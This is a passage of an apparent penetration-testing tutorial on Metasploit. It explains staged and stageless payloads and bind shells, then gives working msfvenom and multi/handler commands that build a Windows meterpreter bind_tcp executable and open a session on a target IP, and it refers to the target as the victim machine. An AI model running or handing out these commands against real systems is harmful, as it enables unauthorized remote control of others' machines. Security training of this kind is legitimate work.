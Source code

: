 _Two major types of Payloads:_

- `Stager` : A stager is a small, initial payload designed to set up a connection (usually between the attacker and the target) and download or execute a larger, secondary payload (called the "stage"). They are commonly identified by second (/) such as `windows/meterpreter/reverse_tcp`
    - The stager (initial payload) connects back to the attacker's machine.
    - The attacker delivers the full Meterpreter stage over the established connection.

- `Stageless` : A stageless payload contains both the stager and stage in a single file, eliminating the need for the stager to download additional components. The use of _ instead of the second / in the payload name such as `windows/meterpreter_reverse_tcp`
    - The stageless payload contains both the stager and stage.
    - When executed, it establishes a Meterpreter session without downloading additional components.



### 1. Bind Shell (`bind_tcp`):

A bind shell is a kind that opens up a new service on the target machine and requires the attacker to connect to it in order to get a session

The target machine opens a specific port and listens for incoming connections from the attacker's machine. The attacker connects to the target machine's open port. Simple to set up on the target machine. Doesn't require the target to connect back to the attacker. Firewalls or network configurations might block incoming connections to the target. Easier to detect by network security tools.


Now, start `msfconsole` and type below command to get a session of the victim machine:

```
msfconsole
```



#### For Windows: [worked]

```
msfvenom -h
```


```
msfvenom -l payloads
```


```
msfvenom -p windows/meterpreter/bind_tcp -f exe > /var/www/html/bind.exe
```


```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp

set rhost 192.168.10.44
set lport 4444

show options

exploit

exploit -j
```
